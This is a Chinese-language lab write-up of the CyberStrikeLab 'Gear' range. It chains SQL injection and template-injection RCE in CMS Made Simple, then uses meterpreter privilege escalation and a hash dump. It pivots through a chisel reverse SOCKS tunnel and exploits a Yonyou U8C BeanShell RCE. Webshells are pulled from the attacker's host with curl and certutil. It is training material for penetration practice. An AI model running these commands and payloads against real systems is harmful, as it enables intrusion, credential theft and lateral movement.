







# CyberStrikeLab-Gear (带预期解和非预期)-Wp-先知社区

> **来源**: https://xz.aliyun.com/news/18137  
> **文章ID**: 18137

---

# Gear

# 入口

```
http://www.my.cs1ab.com/index.php
```

但是dns没解析成功

```
❯ sudo openvpn cyberstrikelab.com-Gear.ovpn
2025-05-26 20:28:53 DEPRECATED OPTION: --cipher set to 'AES-256-CBC' but missing in --data-ciphers (AES-256-GCM:AES-128-GCM:CHACHA20-POLY1305). OpenVPN ignores --cipher for cipher negotiations.
2025-05-26 20:28:53 OpenVPN 2.6.11 aarch64-apple-darwin22.6.0 [SSL (OpenSSL)] [LZO] [LZ4] [PKCS11] [MH/RECVDA] [AEAD]
2025-05-26 20:28:53 library versions: OpenSSL 3.5.0 8 Apr 2025, LZO 2.10
2025-05-26 20:28:53 TCP/UDP: Preserving recently used remote address: [AF_INET]211.137.105.42:49161
2025-05-26 20:28:53 Socket Buffers: R=[786896->786896] S=[9216->9216]
2025-05-26 20:28:53 UDPv4 link local: (not bound)
2025-05-26 20:28:53 UDPv4 link remote: [AF_INET]211.137.105.42:49161
2025-05-26 20:28:53 TLS: Initial packet from [AF_INET]211.137.105.42:49161, sid=d58cc282 27435fc7
2025-05-26 20:28:53 VERIFY OK: depth=1, CN=Easy-RSA CA
2025-05-26 20:28:53 VERIFY KU OK
2025-05-26 20:28:53 Validating certificate extended key usage
2025-05-26 20:28:53 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2025-05-26 20:28:53 VERIFY EKU OK
2025-05-26 20:28:53 VERIFY OK: depth=0, CN=openvpn-server
2025-05-26 20:28:53 Control Channel: TLSv1.2, cipher TLSv1.2 ECDHE-RSA-AES256-GCM-SHA384, peer certificate: 2048 bits RSA, signature: RSA-SHA256, peer temporary key: 256 bits ECprime256v1
2025-05-26 20:28:53 [openvpn-server] Peer Connection Initiated with [AF_INET]211.137.105.42:49161
2025-05-26 20:28:53 TLS: move_session: dest=TM_ACTIVE src=TM_INITIAL reinit_src=1
2025-05-26 20:28:53 TLS: tls_multi_process: initial untrusted session promoted to trusted
2025-05-26 20:28:54 SENT CONTROL [openvpn-server]: 'PUSH_REQUEST' (status=1)
2025-05-26 20:28:54 PUSH: Received control message: 'PUSH_REPLY,redirect-gateway def1 bypass-dhcp,dhcp-option DNS 172.10.59.35,dhcp-option DNS 114.114.114.114,block-outside-dns,route-gateway 172.16.233.1,topology subnet,ping 10,ping-restart 120,ifconfig 172.16.233.2 255.255.255.0,peer-id 1,cipher AES-256-GCM'
2025-05-26 20:28:54 Unrecognized option or missing or extra parameter(s) in [PUSH-OPTIONS]:4: block-outside-dns (2.6.11)
2025-05-26 20:28:54 OPTIONS IMPORT: --ifconfig/up options modified
2025-05-26 20:28:54 OPTIONS IMPORT: route options modified
2025-05-26 20:28:54 OPTIONS IMPORT: route-related options modified
2025-05-26 20:28:54 OPTIONS IMPORT: --ip-win32 and/or --dhcp-option options modified
2025-05-26 20:28:54 Opened utun device utun3
2025-05-26 20:28:54 /sbin/ifconfig utun3 delete
ifconfig: ioctl (SIOCDIFADDR): Can't assign requested address
2025-05-26 20:28:54 NOTE: Tried to delete pre-existing tun/tap instance -- No Problem if failure
2025-05-26 20:28:54 /sbin/ifconfig utun3 172.16.233.2 172.16.233.2 netmask 255.255.255.0 mtu 1500 up
2025-05-26 20:28:54 /sbin/route add -net 172.16.233.0 172.16.233.2 255.255.255.0
add net 172.16.233.0: gateway 172.16.233.2
2025-05-26 20:28:54 /sbin/route add -net 211.137.105.42 10.253.44.1 255.255.255.255
add net 211.137.105.42: gateway 10.253.44.1
2025-05-26 20:28:54 /sbin/route add -net 0.0.0.0 172.16.233.1 128.0.0.0
add net 0.0.0.0: gateway 172.16.233.1
2025-05-26 20:28:54 /sbin/route add -net 128.0.0.0 172.16.233.1 128.0.0.0
add net 128.0.0.0: gateway 172.16.233.1
2025-05-26 20:28:54 Initialization Sequence Completed
2025-05-26 20:28:54 Data Channel: cipher 'AES-256-GCM', peer-id: 1
2025-05-26 20:28:54 Timers: ping 10, ping-restart 120

```

看到了 DNS 172.10.59.35这样的字样

```
❯ nslookup
> server 172.10.59.35
Default server: 172.10.59.35
Address: 172.10.59.35#53
> cs1ab.com

Server:		172.10.59.35
Address:	172.10.59.35#53

** server can't find cs1ab.com: SERVFAIL
>
>
> www.my.cs1ab.com
Server:		172.10.59.35
Address:	172.10.59.35#53

Name:	www.my.cs1ab.com
Address: 172.10.59.35
> my.cs1ab.com
Server:		172.10.59.35
Address:	172.10.59.35#53

*** Can't find my.cs1ab.com: No answer
> www.my.cs1ab.com
Server:		172.10.59.35
Address:	172.10.59.35#53

Name:	www.my.cs1ab.com
Address: 172.10.59.35
>

```

尝试解析真的成功了

# /etc/resolv.conf

```
❯ cat /etc/resolv.conf
#
# macOS Notice
#
# This file is not consulted for DNS hostname resolution, address
# resolution, or the DNS query routing mechanism used by most
# processes on this system.
#
# To view the DNS configuration used by this system, use:
#   scutil --dns
#
# SEE ALSO
#   dns-sd(1), scutil(8)
#
# This file is automatically generated.
#

nameserver 172.10.59.35
```

加上这个ip

然后重启dns 服务

```
sudo killall -HUP mDNSResponder
```

# 172.10.59.35

```
❯ gogo -i 172.10.59.35 -p common,web,windows
[*] gogo: , 2025-05-26 20:33.22
[*] Current goroutines: 1000, Version Level: 0,Exploit: none, PortSpray: false , 2025-05-26 20:33.22
[*] Start task 172.10.59.35 ,total ports: 251 , mod: default , 2025-05-26 20:33.22
[*] too much ports , only show top 100 ports: 70,80,81,82,83,84,85,86,87,88,89,90,442,443,444,1080,2000,2001,3000,3001,1443,4443,4430,5000,5001,5601,6000,6001,6002,6003,7000,7001,7002,7003,9000,9001,9002,9003,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8000,8001,8002,8003,8004,8005,8006,8007,8008,8009,8010,8011,8012,8013,8014,8015,8016,8017,8018,8019,8020,8820,6443,8443,9443,8787,7080,8070,7070,7443,9060,9043,9080,9081,9082,9083,9084,9085,5555,6666,7777,7788,9999,6868,8888,8878,8889,7890,5678,6789...... , 2025-05-26 20:33.22
[*] Default Scan is expected to take 4 seconds , 2025-05-26 20:33.22
[+] winrm://172.10.59.35:5985		winrm:Windows 10 1607/Server2016(10.0.14393):default	WIN-LL1PNMF6HNI/WIN-LL1PNMF6HNI [winrm] WIN-LL1PNMF6HNI/WIN-LL1PNMF6HNI
[+] wmi://172.10.59.35:135		wmi:default	/ [wmi] /
[+] wmi://172.10.59.35:135 (oxid)			WIN-LL1PNMF6HNI [OXID] 172.10.59.35,172.10.68.20
[+] smb://172.10.59.35:445		smb:Windows 10 1607/Server2016(10.0.14393):default	WIN-LL1PNMF6HNI/WIN-LL1PNMF6HNI [SMB1] WIN-LL1PNMF6HNI/WIN-LL1PNMF6HNI
[+] http://172.10.59.35:80	Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.5.38		 [200] HTTP/1.1 200
[+] tcp://172.10.59.35:3306		mysql:guess	 [open]
[*] Alived: 6, Total: 251 , 2025-05-26 20:33.30
[*] Time consuming: 8.118401084s , 2025-05-26 20:33.30
```

## CMS made Simple - 80





sqli

```
GET /moduleinterface.php?mact=News,m1_,default,0&m1_idlist=a,b,1,5)) HTTP/1.1
Host: www.my.cs1ab.com
User-Agent: python-requests/2.28.0
Accept-Encoding: gzip, deflate
Accept: */*
Cookie: CMSSESSIDde6722c290f8=um6c7dcptj24gld0naj8fe2sj7
Referer: http://www.my.cs1ab.com:80/moduleinterface.php
Connection: close

```

```
python .\sqlmap.py -r .\req.txt --level 5 --risk 3 --batch  --tech B  -p m1_idlist --dbms mysql   --string="Feb 12, 2025"
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.2.16#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:28:40 /2025-05-27/

[00:28:40] [INFO] parsing HTTP request from '.\req.txt'
[00:28:41] [INFO] testing connection to the target URL
[00:28:42] [INFO] testing if the provided string is within the target URL page content
[00:28:42] [WARNING] you provided 'Feb 12, 2025' as the string to match, but such a string is not within the target URL raw response, sqlmap will carry on anyway
[00:28:43] [WARNING] heuristic (basic) test shows that GET parameter 'm1_idlist' might not be injectable
[00:28:45] [INFO] testing for SQL injection on GET parameter 'm1_idlist'
[00:28:45] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[00:28:46] [WARNING] reflective value(s) found and filtering out
[00:29:55] [INFO] GET parameter 'm1_idlist' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[00:29:55] [INFO] checking if the injection point on GET parameter 'm1_idlist' is a false positive
[00:30:30] [WARNING] it appears that the character '>' is filtered by the back-end server. You are strongly advised to rerun with the '--tamper=between'
GET parameter 'm1_idlist' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 80 HTTP(s) requests:
---
Parameter: m1_idlist (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: mact=News,m1_,default,0&m1_idlist=a,b,1,5)) AND 3332=3332-- uRvd
---
[00:30:30] [INFO] testing MySQL
[00:30:31] [INFO] confirming MySQL
[00:30:35] [INFO] the back-end DBMS is MySQL
web server operating system: Windows
web application technology: PHP 5.5.38, Apache 2.4.23
back-end DBMS: MySQL >= 5.0.0
[00:30:42] [INFO] fetched data logged to text files under 'C:\Users\dell\AppData\Local\sqlmap\output\www.my.cs1ab.com'
[00:30:42] [WARNING] your sqlmap version is outdated

[*] ending @ 00:30:42 /2025-05-27/
```

或者使用脚本

```
https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3
```

```
❯ python3 sql.py -u http://www.my.cs1ab.com/  -t 3

```

-t指定timeblind-inject的时间

```
[+] Salt for password found: 
3c13c22b0402e37f
3c13c22b0402e376
3c13c22b0402e37f
3c13c22b0402e37f

[+] Username found: cslab
[+] Email found: csk
[*] Try: 
e695422f8
e69542fw
e69542fae4635f40d7785
e69542fae4635f40d7783
e69542fae4635f40d778bc02669a0e3c
e69542fae4635f40d778bc02669a0e3c
```

但是解不出来

## CVE-2021-26120 && CVE-2019-9053

```
CMS Made Simple（CMSMS）是一个免费的开放源码内容管理系统，为开发人员、程序员和网站所有者提供基于网络的开发和管理功能。

Smarty 3.1.39 之前的版本允许在 {function name= 子串后注入PHP代码，导致代码注入漏洞，该漏洞即为CVE-2021-26120。

CMS Made Simple 版本 <= 2.2.15，拥有设计师权限的用户可以在后台利用服务端模板注入漏洞，即为前面提到的CVE-2021-26120。

因此，如果CMSMS版本低于2.2.9.1，未授权的攻击者可以结合CVE-2019-9053和CVE-2021-26120漏洞，在服务器上执行任意代码。

```

可以先通过sql注入把修改密码需要的 pwreset token 注入出来，然后修改密码进入后台在进行RCE

```
❯ python3 rce.py www.my.cs1ab.com / "whoami"
/Users/test/Documents/htb/machine/cyberstrikelab/Gear/rce.py:16: SyntaxWarning: invalid escape sequence '\?'
  match = re.search("style.php\?__c=(.*)"", r.text)
/Users/test/Documents/htb/machine/cyberstrikelab/Gear/rce.py:86: SyntaxWarning: invalid escape sequence '\?'
  match = re.search("Welcome: <a href="myaccount.php\?__c=[a-z0-9]*">(.*)<\/a>", r.text)
(+) targeting http://www.my.cs1ab.com/
(+) sql injection working!
(+) leaking the username...

(+) resetting the cslab's password stage 1
(+) leaking the pwreset token...
(+) pwreset: 99089ba962047f04eb0a8cb513e2963599089ba962047f04eb0a8cb513e29635

(+) done, resetting the cslab's password stage 2
(+) injecting payload and executing cmd...

nt authority\local service
```

脚本跑完账号密码都为cslab,成功执行了命令



```
❯ python3 rce.py www.my.cs1ab.com / "dir"
/Users/test/Documents/htb/machine/cyberstrikelab/Gear/rce.py:16: SyntaxWarning: invalid escape sequence '\?'
  match = re.search("style.php\?__c=(.*)"", r.text)
/Users/test/Documents/htb/machine/cyberstrikelab/Gear/rce.py:86: SyntaxWarning: invalid escape sequence '\?'
  match = re.search("Welcome: <a href="myaccount.php\?__c=[a-z0-9]*">(.*)<\/a>", r.text)
(+) targeting http://www.my.cs1ab.com/
(+) sql injection working!
(+) leaking the username...

(+) resetting the cslab's password stage 1
(+) leaking the pwreset token...
99089ba962047f04eb0a8cb513e2963599089ba962047f04eb0a8cb513e29635

(+) done, resetting the cslab's password stage 2
(+) injecting payload and executing cmd...

������ C �еľ�û�б�ǩ��
 ��������� 06E5-12E4

 C:\phpStudy\WWW ��Ŀ¼

2025/02/13  14:28    <DIR>          .
2025/02/13  14:28    <DIR>          ..
2025/02/12  18:06    <DIR>          admin
2025/02/12  18:07    <DIR>          assets
2025/02/12  18:07               360 config.php
2025/02/12  18:07    <DIR>          doc
2025/02/12  18:06             1,150 favicon_cms.ico
2025/02/12  18:07                24 index.html
2025/02/12  18:06            12,050 index.php
2025/02/12  18:07    <DIR>          lib
2025/02/12  18:06               959 moduleinterface.php
2025/02/12  18:07    <DIR>          modules
2025/02/12  18:07    <DIR>          tmp
2025/02/12  18:07    <DIR>          uploads
               5 ���ļ�         14,543 �ֽ�
               9 ��Ŀ¼  9,906,688,000 �����ֽ�
```

## webshell

```
❯ python3 rce.py www.my.cs1ab.com / "powershell -c curl 172.16.233.2/1.php -O 1.php"
/Users/test/Documents/htb/machine/cyberstrikelab/Gear/rce.py:16: SyntaxWarning: invalid escape sequence '\?'
  match = re.search("style.php\?__c=(.*)"", r.text)
/Users/test/Documents/htb/machine/cyberstrikelab/Gear/rce.py:86: SyntaxWarning: invalid escape sequence '\?'
  match = re.search("Welcome: <a href="myaccount.php\?__c=[a-z0-9]*">(.*)<\/a>", r.text)
(+) targeting http://www.my.cs1ab.com/
(+) sql injection working!
(+) leaking the username...

(+) resetting the cslab's password stage 1
(+) leaking the pwreset token...
e2241353d7bd90bbd65b1b2f2963daefe2241353d7bd90bbd65b1b2f2963daef

(+) done, resetting the cslab's password stage 2
(+) injecting payload and executing cmd...

```

传普通的一句话被杀了

```

MsMpEng.exe	Microsoft Security Essentials
MpCmdRun.exe	Windows Defender Antivirus
```

### config.php

有window defender,直接上免杀马子

```
PS C:\phpStudy\WWW> type config.php
type config.php
<?php
# CMS Made Simple Configuration File
# Documentation: https://docs.cmsmadesimple.org/configuration/config-file/config-reference
#
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'root';
$config['db_password'] = 'root';
$config['db_name'] = 'cslab';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'UTC';
?>
```

web 目录下的 没啥特别的

## ImpersonatePrivilege

```
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeTimeZonePrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeAssignPrimaryTokenPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeSystemtimePrivilege
SeImpersonatePrivilege

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

直接提权

## hashdump

```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2babd46497f956dff3b094cf4d462109:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

flag1 : 2babd46497f956dff3b094cf4d462109

## ipconfig

```
meterpreter > ipconfig

Interface  1
============
Name         : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU          : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

Interface  2
============
Name         : Microsoft ISATAP Adapter #2
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::200:5efe:ac0a:3b23
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

Interface  3
============
Name         : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU          : 1280
IPv6 Address : fe80::200:5efe:ac0a:4414
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

Interface  4
============
Name         : Realtek RTL8139C+ Fast Ethernet NIC #2
Hardware MAC : c0:8d:20:cb:7b:67
MTU          : 1500
IPv4 Address : 172.10.59.35
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::f090:cc10:36d2:ae40
IPv6 Netmask : ffff:ffff:ffff:ffff::

Interface  9
============
Name         : Realtek RTL8139C+ Fast Ethernet NIC #3
Hardware MAC : e0:e5:a2:6a:a0:d9
MTU          : 1500
IPv4 Address : 172.10.68.20
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::1132:2069:dc97:fd13
IPv6 Netmask : ffff:ffff:ffff:ffff::

```

另外一个网卡为 172.10.68.20

# socks

代理用chisel

```
❯ ./chisel_1.10.0_darwin_arm64 server --reverse -port 12345
2025/05/28 01:15:15 server: Reverse tunnelling enabled
2025/05/28 01:15:15 server: Fingerprint tfdEjm04cNl9CxmHYZRGZW5I/qF1BKJZAiRgXLgA7A0=
2025/05/28 01:15:15 server: Listening on http://0.0.0.0:12345
2025/05/28 01:15:18 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening

```

```
❯ .\chisel.exe client 172.16.233.2:12345 R:1080:socks
```

# 172.10.68.30

## fscan

```
c:\phpStudy\WWW> fscan2.exe -h 172.10.68.0/24 -hn 172.10.68.20 -p 1-65535 -o 1.txt

   ___                              _
  / _ \     ___  ___ _ __ __ _  ___| | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\_____\__ \ (__| | | (_| | (__|   <
\____/     |___/\___|_|  \__,_|\___|_|\_\
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 1-65535
[*] 开始信息扫描...
[*] CIDR范围: 172.10.68.0-172.10.68.255
[*] 已生成IP范围: 172.10.68.0 - 172.10.68.255
[*] 已解析CIDR 172.10.68.0/24 -> IP范围 172.10.68.0-172.10.68.255
[*] 已排除指定主机: 1 个
[*] 最终有效主机数量: 255
[+] 目标 172.10.68.30    存活 (ICMP)
[+] ICMP存活主机数量: 1
[*] 共解析 65535 个有效端口
[+] 端口开放 172.10.68.30:445
[+] 端口开放 172.10.68.30:139
[+] 端口开放 172.10.68.30:135
[+] 端口开放 172.10.68.30:3389
[+] 端口开放 172.10.68.30:5938
[+] 端口开放 172.10.68.30:5985
[+] 端口开放 172.10.68.30:8088
[+] 端口开放 172.10.68.30:47001
[+] 端口开放 172.10.68.30:49665
[+] 端口开放 172.10.68.30:49664
[+] 端口开放 172.10.68.30:49670
[+] 端口开放 172.10.68.30:49669
[+] 端口开放 172.10.68.30:49668
[+] 端口开放 172.10.68.30:49667
[+] 端口开放 172.10.68.30:49666
[+] 存活端口数量: 15
[*] 开始漏洞扫描...
[!] 扫描错误 172.10.68.30:5938 - Get "https://172.10.68.30:5938": EOF
[!] 扫描错误 172.10.68.30:445 - 无法确定目标是否存在漏洞
[!] 扫描错误 172.10.68.30:135 - [-] 解码主机信息失败: encoding/hex: odd length hex string
[*] 网站标题 http://172.10.68.30:47001 状态码:404 长度:315    标题:Not Found
[*] 网站标题 http://172.10.68.30:5985  状态码:404 长度:315    标题:Not Found
[*] NetBios 172.10.68.30    WORKGROUP\WIN-06RAOH2AQ6U           Windows Server 2016 Datacenter 14393
[*] 网站标题 http://172.10.68.30:8088  状态码:200 长度:1120   标题:U8C
[+] [发现漏洞] 目标: http://172.10.68.30:8088
  漏洞类型: poc-yaml-yonyou-nc-bsh-servlet-bshservlet-rce
  漏洞名称:
  详细信息: %!s(<nil>)
[!] 扫描错误 172.10.68.30:49668 - Get "http://172.10.68.30:49668": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 172.10.68.30:49669 - Get "http://172.10.68.30:49669": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 172.10.68.30:49667 - Get "http://172.10.68.30:49667": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 172.10.68.30:49670 - Get "http://172.10.68.30:49670": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 172.10.68.30:49664 - Get "http://172.10.68.30:49664": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 172.10.68.30:49665 - Get "http://172.10.68.30:49665": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[!] 扫描错误 172.10.68.30:49666 - Get "http://172.10.68.30:49666": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
```

<http://172.10.68.30:8088> 存在用友 bsh RCE

## 8080-yonyou-bsh-RCE



web 根目录是在 webapps/u8c\_web



写webshell,提前把webshell 写在入口机器的web目录下

```
exec("cmd /c certutil -f -urlcache -split http://172.10.68.20/1.jsp webapps/u8c_web/1.jsp");

```



成功

## av-detect

```

????????                       PID ·???                                        
========================= ======== ============================================
System Idle Process              0 ???±                                        
System                           4 ???±                                        
smss.exe                       248 ???±                                        
